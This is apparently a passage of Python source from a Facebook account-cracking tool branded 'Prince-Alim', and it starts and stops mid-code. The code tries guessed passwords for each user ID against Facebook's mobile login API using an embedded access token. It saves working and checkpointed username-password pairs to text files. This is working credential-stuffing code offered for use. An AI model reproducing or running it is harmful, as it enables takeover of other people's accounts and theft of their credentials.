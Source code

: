 				else:
					data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass2+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
					q = json.loads(data)
					if "access_token" in q:
						print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass2+"\033[0;97m")
						ok = open("Prince-Alimok.txt", "a")
						ok.write(uid+"|"+pass2+"\n")
						ok.close()
						oks.append(uid+pass2)
					else:
						if "www.facebook.com" in q["error_msg"]:
							print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass2+"\033[0;97m")
							cp = open("Prince-Alimcp.txt", "a")
							cp.write(uid+"|"+pass2+"\n")
							cp.close()
							cps.append(uid+pass2)
						else:
							data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass3+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
							q = json.loads(data)
							if "access_token" in q:
								print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass3+"\033[0;97m")
								ok = open("Prince-Alimok.txt", "a")
								ok.write(uid+"|"+pass3+"\n")
								ok.close()
								oks.append(uid+pass3)
							else:
								if "www.facebook.com" in q["error_msg"]:
									print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass3+"\033[0;97m")
									cp = open("Prince-Alimcp.txt", "a")
									cp.write(uid+"|"+pass3+"\n")
									cp.close()
									cps.append(uid+pass3)
								else:
									data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass4+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
									q = json.loads(data)
									if "access_token" in q:
										print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass4+"\033[0;97m")
										ok = open("Prince-Alimok.txt", "a")
										ok.write(uid+"|"+pass4+"\n")
										ok.close()
										oks.append(uid+pass4)
									else:
										if "www.facebook.com" in q["error_msg"]:
											print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass4+"\033[0;97m")
											cp = open("Prince-Alimcp.txt", "a")
											cp.write(uid+"|"+pass4+"\n")
											cp.close()
											cps.append(uid+pass4)
										else: